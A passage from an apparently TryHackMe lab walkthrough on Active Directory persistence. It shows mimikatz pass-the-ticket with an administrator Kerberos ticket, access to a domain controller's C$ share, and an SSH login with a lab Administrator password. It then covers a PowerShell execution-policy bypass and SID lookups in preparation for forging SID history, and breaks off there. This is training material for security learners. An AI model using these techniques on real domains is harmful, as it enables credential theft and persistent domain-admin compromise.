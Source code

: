 ```
C:\Tools\mimikatz_trunk\Win32\mimikatz.exe
```

**Victim(mimikatz) - THMWRK1**

```
kerberos::ptt administrator.kirbi
```

**Victim(cmd) - THMWRK1**

```
dir \\THMDC.za.tryhackme.loc\c$\
```

## Persistence through SID History

**Kali**

```
ssh Administrator@THMCDC.za.tryhackme.loc
Password: tryhackmewouldnotguess1@
```

Get an SSH session on THMDC using the Administrator credentials for this next part. Before we forge SID history, let's just first get some information regarding the SIDs. Firstly, let's make sure that our low-privilege user does not currently have any information in their SID history:

**Victim(cmd) - THMDC**

```
powershell -ep bypass
Get-ADUser $yourAdUsername -properties sidhistory,memberof
```

This confirms that our user does not currently have any SID History set. Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History.

**Victim(powershell) - THMDC**

```
Get-ADGroup "Domain Admins"
```
